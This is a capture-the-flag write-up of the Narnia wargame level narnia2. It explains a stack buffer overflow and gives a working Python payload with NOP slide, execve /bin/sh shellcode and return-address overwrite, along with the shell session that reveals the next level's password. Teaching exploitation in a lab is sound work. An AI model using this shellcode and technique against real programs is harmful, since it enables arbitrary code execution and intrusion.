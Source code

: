 __Narnia :: Level 1__
================


_Caleb Stewart_ | _Monday, January 18th, 2016_ 


> The goal of this level is to exploit a buffer overflow vulnerability in order to inject shellcode into the application.

> The password for the next level is stored in /etc/narnia_pass/narnia3, which is only readable by the narnia3 user.


----------

This time the levels executable requires an argument. Whatever you pass into the executable will be printed out similar to echo, but only one parameter is recognized. Also, watch out. No newline is printed, so it just makes your prompt look gross. 

For this level, we will need to accomplish a few things. First, we need to overflow our buffer in order to crash the program. This serves two purposes. Firstly, we can incrementally increase the size of the input in order to find the point where the application segfaults. This will also tell us where the return address is (if this doesn't mean anything to you, we'll discuss it later). So, we begin by crafting a fun little line with python.

```
narnia2@melinda:/tmp/tmp.jKVblrb2BS$ /narnia/narnia2 `python -c "print 'a'*10"`
aaaaaaaaaanarnia2@melinda:/tmp/tmp.jKVblrb2BS$ 
```

As you can see, 10 characters didn't break the program. We can continue increasing this number, and eventually we will find that 140 characters will cause a segfault. This means that later our payload will need to be at least 140 bytes long. We should now rerun the payload with something like 160 characters to ensure we overwrite our return address. This is so that we segfault due to our `ret` instruction and no because we currupted the stack. Now that we have a segfault, we can run `dmesg` to find out where the program failed. 

```
narnia2@melinda:/tmp/tmp.jKVblrb2BS$ dmesg | tail
narnia2[11491]: segfault at 0 ip 00000000ffffd672 sp 00000000ffffd630 error 6
narnia2[11712]: segfault at 0 ip 00000000ffffd672 sp 00000000ffffd630 error 6
narnia2[12111]: segfault at 0 ip 00000000ffffd6c2 sp 00000000ffffd630 error 6
narnia2[12161]: segfault at 0 ip 00000000ffffd6c2 sp 00000000ffffd630 error 6
traps: narnia2[12224] trap invalid opcode ip:ffffd6f2 sp:ffffd630 error:0
narnia2[12255]: segfault at 0 ip 00000000ffffd672 sp 00000000ffffd630 error 6
narnia2[12521]: segfault at 61616161 ip 0000000061616161 sp 00000000ffffd630 error 14
narnia2[12686]: segfault at 6e ip 00000000ffffd625 sp 00000000ffffd624 error 4
utumno4[13515]: segfault at ffffe000 ip 00000000f7f551ef sp 00000000fffed6b4 error 5 in libc-2.19.so[f7e24000+1a5000]
narnia2[18596]: segfault at 61616161 ip 0000000061616161 sp 00000000ffffd620 error 14
narnia2@melinda:/tmp/tmp.jKVblrb2BS$ 
```

The last line of `dmesg` shows that we segfaulted at the address `0x61616161` with a stack address of `0xffffd620`. This is very useful information. Firstly, we know that we overwrote the return address, because our instruction pointer is now a list of 'a's (0x61 is ascii for the 'a' character). Also, the stack pointer is important for implementing the exploit. Now that we have this information, we can begin building our payload. 

Our main goal for the payload is a shell. This means we need to find some binary shell code which is able to execute /bin/sh for us. If you'd like, you can use the same method as last time to compile the shell code yourself. For this tutorial, I will be using a shellcode exploit taken from shell-storm. Specifically, I'll be using the [`Linux/x86/execve_-bin-sh.c`](shellcode). There are a lot of different `/bin/sh` shell code implementations in shell-storms library. Any of them should work basically the same.

The next part of the payload is our "NOP slide". The nop slide is basically a large string of nop's which allow us to use an impercise instruction pointer. On x86, a `NOP` instruction will do nothing. It literally stands for "No OPeration". If you string a lot of `nop`'s together, and execute in the middle somewhere, you will simply "slide" down the list of `nop`'s until you hit normal code. If we put `nop`'s before our shell code, it makes choosing an execution address easier. We need to know how many nops to use as well. This can take some testing. In our case, we found that 140 bytes would cause a segfault. This means that the integer at 136 cannot be overwritten. We say that `nop`+shellcode should be 136, so we can find the length from that. This can be problematic. If you just get segfaults, try changing that. In my case, 136 was too large, even though it looked right. When it doubt, make it a little smaller. 120 seems to work great for me for this executable.

Lastly, we need to overwrite the return address of the `main` function to somewhere in our `nop` slide. This is where the stack pointer earlier came in. The buffer we are writing into is on the stack. The address we saw earlier was the top of the frame for the main function, therefore our code is located somewhere within the 160 bytes below that pointer. If we overwrote the return address with, say, `0xffffd620-64`, then we should be executin the middle of our buffer (hopefully our `nop` slide!).

We can put all this together in a python script to build our payload for us:

``` python
#!/usr/bin/env python
import struct

# Our execution address
address=0xffffd620 - 64
# The amount of space we need to cover
offset=120
# The shellcode itself
shellcode='\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'
# How many nops we need to padd
nop_count=offset-len(shellcode)
# The actual nops themselves
nops='\x90'*(nop_count)
# build the payload
payload=nops+shellcode+struct.pack('<I', address)*8

# print the payload!
print payload
```

You can save this as payload.py and mark it executable. From here, we just need to execute `/narnia/narnia2` with the payload as the argument!

```
narnia2@melinda:/tmp/tmp.jKVblrb2BS$ /narnia/narnia2 `./exploit.py`
$ cat /etc/narnia_pass/narnia3
vaequeezee
$ 
```

Congratulations! You just completed narnia2!

[shellcode]: /shell-storm/Linux/x86/execve_-bin-sh.c